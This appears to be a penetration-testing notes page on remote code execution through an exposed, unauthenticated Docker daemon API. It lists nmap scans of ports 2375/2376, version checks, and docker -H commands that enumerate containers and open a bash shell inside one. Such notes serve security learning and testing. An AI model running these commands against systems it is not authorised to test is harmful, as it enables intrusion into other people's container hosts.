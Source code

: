 # Docker API unauthorized RCE
- Docker is an open-source platform for developers and other IT professionals to help build, ship, and run distributed applications.
the docker daemon (dockerd) provides an API service used for remote control of docker service the default daemon listen on Unix /var/run/docker.sock and when bound to a public interface can be used by an attacker to compromise container system due to lack of default authentication

## Background concept:

- The host is running docker: daemon bound to the external interface with no access control or authentication
- Attacker uses docker API function to enumerate manage and control the container service the attacker is able to control existing deployed container or create another one.
- Docker API provides JSON response containing the output of command issued.
- Enumerating docker API services
- By default, the Docker host remote API listens on ports 2375 / 2376 and has no authentication. If the port is not blocked, docker host APIs can be accessed over the public internet.

```
nmap IP:2375/2376
nmap -p- IP
nmap -Pn -p 2375 IP
nmap -sV -p 2375 IP
```
- To confirm that the docker is service is running on the target we can give the string in the browser and check the response
ex: `https://IP:2375`
- we will receive a response something like this
`{"message":"page not found"}`
- and to confirm the version details we can use this
`https://IP:2375/version`

- The command used to exploit

- This command is used to get all the information about the docker container
`docker -H IP:2375 info`

- List all the running containers
`docker -H IP:2375 ps`

- List all the stopped containers
`docker -H IP:2375 ps -a`

- Docker command for RCE
`docker -H IP:2375 exec -it container_name /bin/bash`
